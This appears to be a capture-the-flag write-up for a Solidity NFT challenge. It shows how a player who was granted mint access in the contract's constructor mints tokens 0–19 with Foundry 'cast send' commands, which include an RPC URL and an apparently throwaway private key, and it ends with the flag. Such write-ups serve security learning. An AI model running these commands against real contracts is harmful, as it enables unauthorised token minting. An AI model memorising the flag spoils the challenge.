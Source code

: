# Easy NFT (56 solves) (111 points) (First Blood)

```
NFT market was slowly booming and Tony's friends were showing off their NFT holdings. Tony had finally whitelisted a NFT project, he's anxiously waiting for minting his first NFT.
```

The goal of this challenge is to become the owner of NFT 0 to 19

```
    function solve() external {
        solved = true;
        for (uint256 i = 0; i < 20; i++) {
            if (et.ownerOf(i) != PLAYER) {
                solved = false;
            }
        }
    }
```

This is another easy challenge, access is set to true for `player` in the constructor, and there's nothing to set it back to false

```solidity
    constructor(address player) ERC721("EazyToken", "ET") {
        for (uint160 i = 0; i < 10; i++) {
            _mint(address(i), i);
        }
        access[player] = true;
    }

    function mint(address to, uint256 tokenId) public {
        require(access[_msgSender()], "ET: caller is not accessed");
        _mint(to, tokenId);
    }
```

So just call mint() 20 times :

```
# for i in $(seq 0 19); do cast send 0xe735883F17F1a8f7A6f7B18dfD56Ad9d1a1d9eb4 -r http://rpc.ctf.so:8545/xxpkcuvkkfoccbqggnijixjv/main --private-key 0x70958392a79789ba95d66965666024e8081a6d3886acb0a9f23c3a454f8fff96 "mint(address,uint256)" 0xbEDaF89380394fE4b758d3c12DA3C2C792DcE1B3 $i --nonce $i; done

# cast send 0xca0e5e1Cc02b3e0C296e357E96271Ba9D6f715e9 "solve()" -r http://rpc.ctf.so:8545/xxpkcuvkkfoccbqggnijixjv/main --private-key 0x70958392a79789ba95d66965666024e8081a6d3886acb0a9f23c3a454f8fff96
```

### Flag

```
blaz{e1111zzzzzzzzzz2zzzzzzzz22z2zz}
```


